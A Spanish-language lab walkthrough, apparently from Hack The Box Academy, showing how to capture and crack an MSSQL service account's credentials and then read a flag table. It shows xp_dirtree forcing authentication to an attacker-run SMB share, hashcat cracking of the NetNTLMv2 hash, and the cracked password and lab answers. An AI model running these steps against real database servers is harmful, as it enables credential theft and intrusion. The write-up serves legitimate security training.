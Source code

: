# Credentials - SQL

## What is the password the "mssqlsvc" user?

- Nos conectamos a la máquina vía SQL con `sqsh`: 
	
	```bash 
	sqsh -S $target -U htbdbuser -P 'MSSQLAccess01!' -h
	```
- Solo tenemos acceso a algunas bases de datos, pero no a todas, por lo que no conseguimos extraer ninguna información importante de las bases de datos, por lo que capturamos el hash del usuariom `ssqlserver`. Nos ponemos en escucha (puede ser con `responder` o con `impacket-server`)
	
	```bash
	sudo impacket-smbserver share ./ -smb2support
	```

	y a continuación tratamos de conectarnos a un recurso compartido desde `sqsh`

	```sql
	EXEC xp_dirtree '\\10.10.14.91\share\';
	GO
	```

- Con el hash obtenido (hacemos una copia de todo lo obtenido y lo guardamos en capturaHash)

	```bash
	cat capturaHash | grep mssqlsvc:: | tr -d '[*] ' > hashSQL
	```

	aplicamos fuerza bruta (no funciona la lista de passwords que nos dan)

	```bash
	hashcat -m 5600 hashSQL /usr/share/wordlists/rockyou.txt
	```

	encontrando como pass `princess1`

##  Enumerate the "flagDB" database and submit a flag as your answer.

- Nos conectamos con la contraseña obtenida

	```bash
	python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py mssqlsvc@$target -p 1433 -windows-auth
	```

- Enumeramos la base de datos 

	```sql
	SELECT name FROM master.dbo.sysdatabases
	# Tras comprobar quee está el la base de datos flagDB
	use flagDB
	SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
	# Encontramos la tabla tb_flag
	SELECT * FROM tb_flag
	```

	Encontrando la flag


